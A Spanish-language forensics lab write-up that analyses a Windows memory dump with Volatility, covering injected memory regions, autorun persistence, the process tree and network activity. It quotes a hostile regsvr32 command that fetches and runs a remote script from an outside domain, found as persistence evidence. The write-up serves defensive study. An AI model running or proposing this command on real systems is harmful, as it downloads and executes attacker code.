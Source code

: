 ```yaml
---
title: Reto DFIR 2 - Atenea CCN
layout: page
permalink: /writeups/DFIR/2025-01-15-atenea_dfir_2
date: 2025-01-15 19:12:49 +0100
categories: [Laboratorios, DFIR]
tags: [dfir, forensics, malware analysis, memory analysis, volatility]
---
```


## Recursos

[Enlace del fichero usado (Google Drive)](https://drive.google.com/file/d/1OgjS9MtPklkL-jeiZcoj9SLAs8mFcl41/view?usp=sharing)

## Contexto

### Información

Sospechamos que el volcado de memoria adjunto se corresponde con una máquina que ha
sido infectada de forma persistente por algún tipo de malware, posiblemente un dropper.
Nos gustaría identificar el dominio dañino utilizado por el mismo.

## Análisis de procesos

![Listado de procesos](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_191249_2025-01-15_20-12.png)
_Aquí podemos ver algunos procesos interesantes y algunas anomalías que iremos viendo más adelante_

### Identificando posibles inyecciones en los comandos

En volatility disponemos de un módulo para intentar detectar inyecciónes o comportamientos anómalos en los procesos de windows.

![Análisis de anomalías](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_192639_Peek_2025-01-15_20-26.gif)
_Podemos ver que encuentra posibles anomalías en los dos prodesos de Internet Explorer y en csrss_

### Análisis

En el proceso csrss.exe (PID 592):

-> Tiene una región de memoria con permisos PAGE_EXECUTE_READWRITE (que es sospechoso para csrss.exe)

-> Contiene código ensamblador que parece shellcode, con instrucciones como OUT y STD que son inusuales en código legítimo

En dos procesos de IEXPLORE.EXE (PIDs 1624 y 3728):

-> Ambos tienen regiones idénticas en la dirección 0x5fff0000
-> También con permisos PAGE_EXECUTE_READWRITE
-> Contienen la firma "dtrR" seguida de un patrón de bytes similar
-> El código ensamblador incluye un CALL FAR que podría ser usado para ejecución de código malicioso

## Análisis de autoruns

### Plugin autorun

[Github](https://github.com/Telindus-CSIRT/volatility3-autoruns/blob/main/autorun.py)

Una vez importado este plugin nos permite ver que ejecutables están configurados para ejecutarse al inicio del sistema lo que es normal en la forma de generar persistencia en un malware.

![Análisis de autoruns](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_193253_2025-01-15_20-32.png

### Análisis

La entrada más sospechosa es 

regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll

Este comando en el autoruns es muy sospechoso porque:

-> Usa regsvr32 para desregistrar (/u) scrobj.dll
-> Intenta cargar un script desde una URL externa (http://wiki-read.com/info.txt)
-> Se ejecuta silenciosamente (/s)
-> Está configurado para ejecutarse automáticamente al inicio del sistema

![Análisis adicional de autoruns](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_193539_2025-01-15_20-35.png)

regsvr32 /s /n /i:U shell32

Este comando aparece dos veces como "_nltide_2" en RunOnce para diferentes usuarios.

Hasta ahora el posible vector inicial de infección parece ser la descarga y ejecución del script malicioso desde wiki-read.com mediante regsvr32, que es una técnica conocida de "Living off the Land" para evadir defensas.

### Correlación

Esto encaja con el hallazgo anterior:

-> El script malicioso probablemente fue descargado a través de Internet Explorer

-> Inyectó código en csrss.exe (un proceso crítico del sistema)

-> Los dos procesos de IE con la misma firma indican que el malware se replicó

## Relación con los procesos

![Árbol de procesos](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_194308_2025-01-15_20-43.png)

### Relación

Los procesos de Internet Explorer sospechosos (PIDs 1624 y 3728) son hijos de explorer.exe (PID 1868)

-> Esto es normal ya que IE se suele lanzar desde el explorador
-> Pero recordemos que ambos tienen la misma región de memoria maliciosa

Hay varios shells de cmd.exe abiertos (PIDs 3468, 300, 1080) también como hijos de explorer.exe

-> Esto podría indicar actividad de comando y control
-> Especialmente sospechoso tener múltiples shells abiertos

Hay dos instancias de explorer.exe (PIDs 1868 y 1608)

-> Una es hija de winlogon.exe (normal)
-> La otra (PID 1608) parece huérfana (su padre PID 1552 no existe)
-> Esta segunda instancia podría ser una persistencia del malware

El proceso regedit.exe (PID 2664) podría indicar modificaciones al registro

-> Esto coincide con las entradas de autoruns que encontramos antes

### Línea temporal

La línea temporal sugiere:

- 23:47: Se inicia el primer IE sospechoso (PID 1624)
- 23:49: Se modifican las entradas de autoruns (según el output anterior)
- 23:52: Se inicia el segundo IE sospechoso (PID 3728)

## Análisis de conexiónes

![Análisis de conexiones](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_195117_2025-01-15_20-50.png)

### Análisis

Los procesos de IE sospechosos tienen actividad de red:

-> PID 1624 usando UDP puerto 1031 en 127.0.0.1
-> PID 3728 usando UDP puerto 1035 en 127.0.0.1
-> Ambos procesos usan conexiones UDP locales, lo que es inusual para IE

Cronología interesante:

-> 23:47:13: Primera conexión del IE sospechoso (PID 1624)
-> 23:52:15: Segunda conexión del IE sospechoso (PID 3728)
-> Coincide con la timeline que vimos en el pstree

La comunicación UDP en localhost entre los procesos de IE es especialmente sospechosa y podría indicar:

- Comunicación entre componentes del malware
- Túnel C2 (Command & Control)
- Evasión de firewalls

## Análisis de URLs en memoria

### Datos del proceso 1624

Dado el timeline que hemos visto:

-> PID 1624 (primer IE) se inició a las 23:47:12
-> Las modificaciones del registro ocurrieron a las 23:49
-> PID 3728 (segundo IE) se inició después a las 23:52:15

El PID 1624 parece ser la infección inicial que desencadenó todo, así que es el mejor candidato para buscar la URL maliciosa.

![Volcado de memoria del proceso](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_195422_2025-01-15_20-54.png)
_Lo volcamos en un txt por si es mucho contenido_

![Análisis de URLs en memoria](/assets/img/writeups/DFIR/atenea_dfir_2/20250115_200501_2025-01-15_21-04.png)